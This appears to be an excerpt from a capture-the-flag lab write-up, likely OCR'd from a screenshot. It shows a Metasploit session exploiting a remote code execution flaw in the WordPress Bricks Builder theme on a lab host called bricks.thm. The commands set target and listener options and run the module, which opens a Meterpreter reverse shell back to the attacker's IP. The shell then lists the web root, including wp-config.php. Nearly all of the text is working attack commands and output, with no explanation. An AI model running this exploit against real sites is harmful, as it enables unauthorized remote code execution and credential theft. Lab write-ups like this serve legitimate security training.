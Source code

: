 ```jsx
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_bricks_builder_rce) > set RHOST bricks.thm
RHOST => bricks.thm
msf6 exploit(multi/http/wp_bricks_builder_rce) > set RPORT 443
msf6 exploit(multi/http/wp_bricks_builder_rce) > set LHOST 10.8.103.236
LHOST => 10.8.103.236
msf6 exploit(multi/http/wp_bricks_builder_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(multi/http/wp_bricks_builder_rce) > exploit
[*] Started reverse TCP handler on 10.8.103.236:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5
[+] Detected Bricks Builder theme version: 1.9.5
[+] The target appears to be vulnerable.
[+] Nonce retrieved: 40f495b6e4
[*] Sending stage (40004 bytes) to 10.10.134.145
[*] Meterpreter session 1 opened (10.8.103.236:4444 -> 10.10.134.145:40816) at 2025-04-13 16:33:04 -0400

meterpreter > 

```

```jsx
meterpreter > ls
Listing: /data/www/default
==========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  523    fil   2024-04-02 07:13:36 -0400  .htaccess
100644/rw-r--r--  43     fil   2024-04-05 08:39:01 -0400  650c844110baced87e1606453b93f22a.txt
100644/rw-r--r--  405    fil   2024-04-02 07:12:03 -0400  index.php
040755/rwxr-xr-x  4096   dir   2023-04-11 20:53:55 -0400  kod
100644/rw-r--r--  19915  fil   2024-04-04 11:15:40 -0400  license.txt
040755/rwxr-xr-x  4096   dir   2024-04-02 07:03:35 -0400  phpmyadmin
100644/rw-r--r--  7401   fil   2024-04-04 11:15:40 -0400  readme.html
100644/rw-r--r--  7387   fil   2024-04-04 11:15:40 -0400  wp-activate.php
040755/rwxr-xr-x  4096   dir   2024-04-02 07:12:03 -0400  wp-admin
100644/rw-r--r--  351    fil   2024-04-02 07:12:03 -0400  wp-blog-header.php
100644/rw-r--r--  2323   fil   2024-04-02 07:12:03 -0400  wp-comments-post.php
100644/rw-r--r--  3012   fil   2024-04-04 11:15:40 -0400  wp-config-sample.php
100666/rw-rw-rw-  3288   fil   2024-04-02 07:12:39 -0400  wp-config.php
040755/rwxr-xr-x  4096   dir   2025-04-13 15:42:28 -0400  wp-content
100644/rw-r--r--  5638   fil   2024-04-02 07:12:03 -0400  wp-cron.php
040755/rwxr-xr-x  16384  dir   2024-04-04 11:15:40 -0400  wp-includes
100644/rw-r--r--  2502   fil   2024-04-02 07:12:03 -0400  wp-links-opml.php
100644/rw-r--r--  3927   fil   2024-04-02 07:12:03 -0400  wp-load.php
100644/rw-r--r--  50917  fil   2024-04-04 11:15:40 -0400  wp-login.php
100644/rw-r--r--  8525   fil   2024-04-02 07:12:03 -0400  wp-mail.php
100644/rw-r--r--  28427  fil   2024-04-04 11:15:40 -0400  wp-settings.php
```